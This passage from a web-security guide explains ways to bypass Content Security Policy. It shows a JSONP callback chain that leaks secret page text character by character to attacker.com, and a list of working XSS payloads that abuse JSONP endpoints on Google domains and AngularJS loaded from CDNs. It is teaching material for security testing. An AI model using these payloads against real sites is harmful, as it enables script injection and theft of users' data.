 For example, let's say `body.children[0].textContent[0]` contains some sensitive information. We would inject all the anchor tags as above for all possible characters in this text, then add the following script tag to the exploit:

{% code overflow="wrap" %}
```python
<script src="/jsonp?callback=window[top.opener.document.body.children[0].textContent[0]].click">
```
{% endcode %}

This code will be evaluated as follows:

1. `window[top.opener.document.body.children[0].textContent[0]].click()`
2. `window['SECRET'[0]].click()`
3. `window['S'].click()`
4. `<a id="S" href="https://attacker.com/S">` is clicked
5. Browser navigates to [https://attacker.com/S](https://attacker.com/S), first character is leaked to the attacker

Then simply continue for `.innerText[1]`, `.innerText[2]`, etc. until the whole string is leaked.

### CDNs in `script-src` (AngularJS Bypass + JSONP)

Every origin in this directive is trusted with all URLs it hosts. A common addition here is CDN (Content Delivery Network) domains that host many different JavaScript files for libraries. While in very unrestricted situations a CDN like [unpkg.com](https://www.unpkg.com/) will host **every file on NPM**, even malicious ones, others are less obvious.

The [cdnjs.cloudflare.com](https://cdnjs.cloudflare.com) or [ajax.googleapis.com](https://ajax.googleapis.com/) domains for example host **only specific** popular libraries which should be secure, but some have exploitable features. The most well-known is AngularJS, which a vulnerable site may also host themselves removing the need for a CDN. This library searches for specific patterns in the DOM that can define event handlers without the regular inline syntax. This bypasses the CSP and can allow arbitrary JavaScript execution by loading such a library, and including your own malicious content in the DOM:

<pre class="language-html"><code class="lang-html">&#x3C;!-- *.googleapis.com -->
<strong>&#x3C;script src="https://www.googleapis.com/customsearch/v1?callback=alert(document.domain)">&#x3C;/script>
</strong>&#x3C;!-- *.google.com -->
<strong>&#x3C;script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)">&#x3C;/script>
</strong>&#x3C;!-- ajax.googleapis.com (click) + maps.googleapis.com (no click) -->
<strong>&#x3C;script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js>&#x3C;/script>
</strong><strong>&#x3C;div ng-app ng-csp id=x ng-click=$event.view.alert($event.view.document.domain)>&#x3C;/div>
</strong><strong>&#x3C;script async src=https://maps.googleapis.com/maps/api/js?callback=x.click>&#x3C;/script>
</strong>&#x3C;!-- cdnjs.cloudflare.com -->
<strong>&#x3C;script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js">&#x3C;/script>
</strong><strong>&#x3C;script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js">&#x3C;/script>
</strong><strong>&#x3C;div ng-app ng-csp>{{$on.curry.call().alert($on.curry.call().document.domain)}}&#x3C;/div>
</strong></code></pre>
